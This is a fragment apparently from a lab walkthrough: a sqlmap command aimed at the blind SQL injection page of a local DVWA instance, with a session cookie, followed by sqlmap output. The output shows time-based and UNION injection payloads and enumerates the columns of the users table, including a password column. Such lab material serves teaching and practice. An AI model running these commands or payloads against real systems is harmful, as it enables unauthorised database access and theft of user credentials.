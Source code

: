     sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --columns

That shows the tables.

    [*] starting @ 17:49:14 /2022-11-17/

    [17:49:14] [INFO] resuming back-end DBMS 'mysql' 
    [17:49:14] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:49:14] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: Apache 2.2.8, PHP 5.2.4
    back-end DBMS: MySQL >= 5.0.12
    [17:49:14] [INFO] fetching tables for database: 'dvwa'
    [17:49:14] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
    [17:49:15] [INFO] fetching columns for table 'users' in database 'dvwa'
    Database: dvwa
    Table: guestbook
    [3 columns]
    +------------+----------------------+
    | Column     | Type                 |
    +------------+----------------------+
    | comment    | varchar(300)         |
    | comment_id | smallint(5) unsigned |
    | name       | varchar(100)         |
    +------------+----------------------+

    Database: dvwa
    Table: users
    [6 columns]
    +------------+-------------+
    | Column     | Type        |
    +------------+-------------+
    | user       | varchar(15) |
    | avatar     | varchar(70) |
    | first_name | varchar(15) |
    | last_name  | varchar(15) |
    | password   | varchar(32) |
    | user_id    | int(6)      |
    +------------+-------------+
